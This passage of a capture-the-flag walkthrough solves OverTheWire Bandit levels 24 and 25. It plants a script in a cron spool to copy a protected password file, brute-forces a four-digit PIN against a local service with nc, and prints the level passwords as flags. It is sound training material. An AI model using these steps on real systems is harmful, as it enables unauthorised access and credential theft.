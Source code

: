 ```bash
mkdir -m /tmp/me
```
```bash
cd /tmp/me
```
```bash
touch pwned.sh password
```
```bash
chmod -R 777 /tmp/me
```
```bash
nano password
```
```bash
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/me/password
```
```
cp pwned.sh /var/spool/bandit24/
```
```tail -f
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

**Flag:** `UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ`

## Exercise 25

http://overthewire.org/wargames/bandit/bandit25.html

**Login**

```
ssh bandit24@bandit.labs.overthewire.org -p 2220
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

```python
for i in range(10000):
    print("UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ {:04d}".format(i)) 
```

```bash
python3 pwned.py | nc localhost 30002 | sort | uniq
```

```
Correct!
Exiting.
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
Wrong! Please enter the correct pincode. Try again.
```

**Flag**: `uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG`
